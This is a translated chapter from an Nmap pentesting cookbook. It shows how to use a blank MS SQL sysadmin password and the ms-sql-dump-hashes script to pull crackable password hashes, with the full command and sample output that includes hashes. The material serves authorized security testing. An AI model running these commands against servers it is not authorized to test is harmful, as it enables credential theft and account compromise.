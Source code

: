 +   *在 MS SQL 服务器上查找空密码的 sysadmin 帐户*食谱

# 转储 MS SQL 服务器的密码哈希

获得对 MS SQL 服务器的访问权限后，我们可以转储 MS SQL 服务器的所有密码哈希以破坏其他帐户。Nmap 可以帮助我们以可供**John the Ripper**破解工具使用的格式检索这些哈希。

此教程显示了如何使用 Nmap 转储 MS SQL 服务器的可破解密码哈希。

## 如何做...

要转储具有空 sysadmin 密码的 MS SQL 服务器的所有密码哈希，请运行以下 Nmap 命令：

```
$ nmap -p1433 --script ms-sql-empty-password,ms-sql-dump-hashes <target>

```

密码哈希将包含在`ms-sql-dump-hashes`脚本输出部分中：

```
PORT     STATE SERVICE  VERSION 
1433/tcp open  ms-sql-s Microsoft SQL Server 2011 
Service Info: CPE: cpe:/o:microsoft:windows 

Host script results: 
| ms-sql-empty-password: 
|   [192.168.1.102\MSSQLSERVER] 
|_    sa:<empty> => Login Success 
| ms-sql-dump-hashes: 
| [192.168.1.102\MSSQLSERVER] 
|     sa:0x020039AE3752898DF2D260F2D4DC7F09AB9E47BAB2EA3E1A472F49520C26E206D0613E34E92BF929F53C463C5B7DED53738A7FC0790DD68CF1565469207A50F98998C7E5C610 
|     ##MS_PolicyEventProcessingLogin##:0x0200BB8897EC23F14FC9FB8BFB0A96B2F541ED81F1103FD0FECB94D269BE15889377B69AEE4916307F3701C4A61F0DFD9946209258A4519FE16D9204580068D2011F8FBA7AD4 
|_    ##MS_PolicyTsqlExecutionLogin##:0x0200FEAF95E21A02AE55D76F68067DB02DB59AE84FAD97EBA7461CB103361598D3683688F83019E931442EC3FB6342050EFE6ACE4E9568F69D4FD4557C2C443243E240E66E10 

```

## 它是如何工作的...

MS SQL 服务器通常在 TCP 端口 1433 上运行。参数`-p1433 --script ms-sql-empty-password,ms-sql-dump-hashes`启动脚本`ms-sql-empty-password`，该脚本找到一个空的 root sysadmin 帐户，然后在端口 1433 上运行脚本`ms-sql-dump-hashes`。

`ms-sql-dump-hashes`脚本由 Patrik Karlsson 编写，其功能是检索 MS SQL 服务器的密码哈希，以便像 John the Ripper 这样的破解工具使用。此脚本依赖于`mssql`库。您可以在`http://nmap.org/nsedoc/lib/mssql.html`了解更多信息。

## 还有更多...

如果 SMB 端口打开，您可以使用它通过设置参数`mssql.instance-all`或`mssql.instance-name`来运行此脚本：

```
PORT    STATE SERVICE 
445/tcp open  microsoft-ds 

Host script results: 
| ms-sql-empty-password: 
|   [192.168.1.102\MSSQLSERVER] 
|_    sa:<empty> => Login Success 
| ms-sql-dump-hashes: 
| [192.168.1.102\MSSQLSERVER] 
|
  sa:0x020039AE3752898DF2D260F2D4DC7F09AB9E47BAB2EA3E1A472F49520C26E206D0613E34E92BF929F53C463C5B7DED53738A7FC0790DD68CF1565469207A50F98998C7E5C610 
```